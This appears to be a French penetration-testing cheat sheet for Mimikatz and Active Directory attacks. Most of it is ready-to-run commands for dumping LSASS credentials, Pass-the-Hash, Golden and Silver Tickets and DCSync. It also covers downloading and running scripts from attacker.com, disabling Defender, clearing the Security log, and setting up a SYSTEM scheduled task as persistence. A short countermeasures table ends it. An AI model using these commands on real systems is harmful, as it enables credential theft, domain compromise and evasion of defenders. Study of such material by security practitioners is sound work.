

## Mimikatz : Dumping de credentials et attaques Kerberos



**Mimikatz** est l'outil principal pour extraire les mots de passe, les tickets **Kerberos**, et exécuter des attaques **Pass-the-Hash** (**PTH**), **Pass-the-Ticket** (**PTT**), et **Golden Ticket** sur **Active Directory**. Ces techniques sont étroitement liées à l'**Active Directory Enumeration**, aux **Kerberos Attacks**, aux **Lateral Movement Techniques** et à la **Windows Privilege Escalation**.

> [!danger] Prérequis
> Privilèges Administrateur ou SYSTEM requis pour interagir avec **LSASS**.

> [!warning] Danger
> L'exécution de **Mimikatz** est hautement détectable par les solutions EDR/AV modernes.

> [!note] Stabilité
> Le dump de **LSASS** peut entraîner une instabilité du système ou un crash du processus si le système est sous forte charge.

## Installation

```powershell
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210608/mimikatz_trunk.zip -OutFile mimikatz.zip
Expand-Archive mimikatz.zip -DestinationPath .
cd mimikatz_trunk\x64
.\mimikatz.exe
```

```bash
privilege::debug
sekurlsa::check
```

## Dumping de mots de passe Windows

```bash
sekurlsa::logonpasswords
sekurlsa::ekeys
lsadump::lsa /patch
sekurlsa::msv
sekurlsa::tspkg
sekurlsa::credman
```

```powershell
netsh wlan show profiles
netsh wlan show profile name="SSID" key=clear
```

## Analyse des risques liés à LSASS (PPL - Protected Process Light)

Le mécanisme **PPL** empêche les processus non signés ou sans privilèges spécifiques d'ouvrir un handle sur **LSASS**. Si **LSASS** est protégé, les commandes classiques de **Mimikatz** échoueront.

| Protection | Impact |
| :--- | :--- |
| **RunAsPPL** | Empêche l'accès en lecture mémoire standard |
| **Credential Guard** | Isole les secrets dans un conteneur VBS (Virtualization Based Security) |

Pour contourner ces protections, il est nécessaire de charger un driver signé (ex: `mimidrv.sys`) ou d'utiliser des techniques d'injection en mémoire via des vulnérabilités de drivers tiers (BYOVD).

## Techniques d'obfuscation avancées (ex: Invoke-Mimikatz en mémoire)

Pour éviter la détection basée sur les signatures disque, l'exécution en mémoire est privilégiée.

```powershell
# Exécution via PowerShell en mémoire
IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

> [!tip] Obfuscation
> L'utilisation de **Invoke-Mimikatz** avec des paramètres modifiés ou le renommage des fonctions dans le script permet de contourner certaines détections statiques basées sur les noms de fonctions.

## Utilisation de Mimikatz via des outils tiers (ex: Cobalt Strike, Impacket)

L'intégration de **Mimikatz** dans des frameworks de C2 permet une exécution distante et discrète.

- **Cobalt Strike** : Utilise la commande `mimikatz` (ou `hashdump`) qui injecte une version réfléchie de Mimikatz dans un processus distant.
- **Impacket (secretsdump.py)** : Alternative distante pour extraire les hashes sans injecter de binaire sur la cible.

```bash
# Impacket (Distant)
python3 secretsdump.py DOMAIN/user:password@target-ip
```

## Pass-the-Hash (PTH)

> [!tip] Astuce
> Toujours purger les tickets (**kerberos::purge**) après une opération pour éviter les conflits ou la détection.

```bash
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:cmd.exe
dir \\target\c$
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:powershell.exe
```

## Pass-the-Ticket (PTT)

```bash
kerberos::list
kerberos::list /export
kerberos::ptt ticket.kirbi
klist
dir \\target\c$
```

## Golden Ticket Attack

```bash
kerberos::golden /user:Administrator /domain:DOMAIN.LOCAL /sid:S-1-5-21-XXXX /krbtgt:NTLM_HASH /id:500 /ptt
dir \\target\c$
kerberos::golden /user:Administrator /domain:DOMAIN.LOCAL /sid:S-1-5-21-XXXX /krbtgt:NTLM_HASH /ptt /endin:3650
kerberos::purge
```

## Silver Ticket Attack

```bash
kerberos::golden /user:Administrator /domain:DOMAIN.LOCAL /sid:S-1-5-21-XXXX /target:server /service:cifs /rc4:NTLM_HASH /ptt
dir \\target\c$
kerberos::golden /user:DBAdmin /domain:DOMAIN.LOCAL /sid:S-1-5-21-XXXX /target:SQLSERVER /service:MSSQLSvc /rc4:NTLM_HASH /ptt
```

## Dumping Active Directory Credentials

> [!danger] Condition critique
> Le **DCSync** nécessite les privilèges 'Replicating Directory Changes' sur le domaine.

```bash
lsadump::sam
lsadump::dcsync /domain:DOMAIN.LOCAL /user:Administrator
lsadump::lsa /inject /name:krbtgt
lsadump::dcsync /domain:DOMAIN.LOCAL /user:USERNAME
```

## Méthodes d'exfiltration sécurisées des dumps

Une fois les données extraites, l'exfiltration doit être discrète pour éviter les alertes DLP.

- **Encodage** : Toujours encoder les fichiers de dump (Base64) avant transfert.
- **Canaux** : Utiliser des protocoles légitimes (DNS, HTTPS, SMB).

```bash
# Encodage du fichier de dump
certutil -encode dump.txt dump.b64
```

## Éviter la détection et persistance

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/mimikatz.ps1')
schtasks /create /tn "Update" /tr "powershell.exe -c IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')" /sc ONLOGON /ru SYSTEM
wevtutil cl Security
```

```bash
kerberos::purge
```

## Contre-mesures et détection

| Méthode | Commande / Action |
| :--- | :--- |
| Réinitialisation KRBTGT | Reset-KrbtgtPassword |
| Audit Kerberos | auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable |
| Restriction délégation | Set-ADUser -Identity "Administrator" -AccountNotDelegated $true |
| Applocker | Set-ExecutionPolicy Restricted |

```text
index=windows EventCode=4769 (Ticket_Options=0x40810000 OR Ticket_Options=0x40800000)
```